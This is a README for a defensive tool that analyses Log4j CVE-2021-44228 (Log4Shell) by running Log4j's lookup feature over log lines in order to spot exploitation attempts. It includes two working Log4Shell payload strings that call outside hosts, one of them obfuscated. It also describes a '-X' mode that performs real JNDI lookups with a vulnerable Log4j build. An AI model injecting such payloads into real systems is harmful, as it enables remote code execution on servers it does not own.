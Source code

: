 # JndiLookup
Some tool to help analyzing Apache Log4j 2 CVE-2021-44228

This tool uses the "lookup" feature from log4j-2 to test against the JNDI vulnerability.
The objective is to easily run the lookup feature (to normalize logs for example or to do a real testing on some payload - please be cautious).

To build : "make" (for convenience, the JndiLookup.jar file is included in this git).

Once built, you can run the tool with "java -jar JndiLookup.jar" (the log4j directory with log4j binaries must be in the same path as the JndiLookup.jar)

With no argument, the JndiLookup tool read lines from stdin and "convert" them using the log4j lookup feature - this should be useful to normalize logs and search for exploitation attempts

For example : cat access.log | java -jar JndiLookup.jar


If you pass a string to the command line, the tool will convert this string and exits (please escape all the '$' characters).

For example : java -jar JndiLookup.jar java -jar JndiLookup.jar "\\${jndi:\\${lower:l}\\${lower:d}a\\${lower:p}://world443.log4j.bin\\${upper:a}ryedge.io:80/callback}"

By default, the JNDI lookup is disabled (and replaced by a lookup function that will just add "jndi:" but it's possible to enable the real JNDI lookup by passing the "-X" parameter to JndiLookup ("-X" to be passed as the first parameter) ; PLEASE BE CAUTIOUS with this because it could lead to your system being compromised.

For example : java -jar JndiLookup.jar -X "\\${jndi:ldap://w8pcb14reujq65vic39pz9amv.canarytokens.com/a}"
[ This example uses one of my canary token, it's just for the example ; please know I'll be notified if you use this command - no problem on my side but I'll get the IP from which the DNS request is done ]



The following lookup are enabled in the log4j binariers used (2.15.0 for standard usage, 2.14.1 for JNDI-enabled usage) :
- log4j
- sys
- env
- main
- marker
- java
- base64
- lower
- upper
- date 
- ctx

Other lookup might be availabled depending on your environment :
- docker
- kubernetes
- spring
- jvmrunargs

[ Please see https://github.com/apache/logging-log4j2/blob/c30a1398a6697fb832c650870c44284d0052103e/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java for details on lookup plugin activation]


Please be aware this tool uses the real code from log4j lookup feature and it could be vulnerable because of other (non-JNDI) security issues.
